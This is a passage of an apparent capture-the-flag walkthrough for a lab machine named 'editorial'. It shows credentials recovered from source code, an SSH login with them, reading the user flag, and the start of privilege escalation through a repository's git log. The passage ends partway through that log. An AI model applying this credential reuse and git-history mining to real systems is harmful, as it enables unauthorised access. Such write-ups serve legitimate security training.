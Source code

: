 Nice! Now we got some credentials:

```shell
# Username
dev

# Password
dev080217_devAPI!@
```

### SSH access as user dev

Now we can use these credentials to try to get SSH access:

```shell
ssh dev@10.129.138.51
# dev@10.129.138.51's password: dev080217_devAPI!@
```

The credentials were valid, we are in!

### User Flag
Now we can get the user.txt flag:

```shell
cat /home/dev/user.txt
```

# Privilege Escalation
### Finding user prod credentials on Git Commit 
Enumerating the files we found a .git directory inside /apps:

```shell
dev@editorial:~/apps$ ls -al
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5 14:36 .
drwxr-x--- 4 dev dev 4096 Jun  5 14:36 ..
drwxr-xr-x 8 dev dev 4096 Jun  5 14:36 .git
```

Lets check the git log:

```shell
# Move inside .git
cd .git

# Check the git log with this command
git log
```

```shell
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

```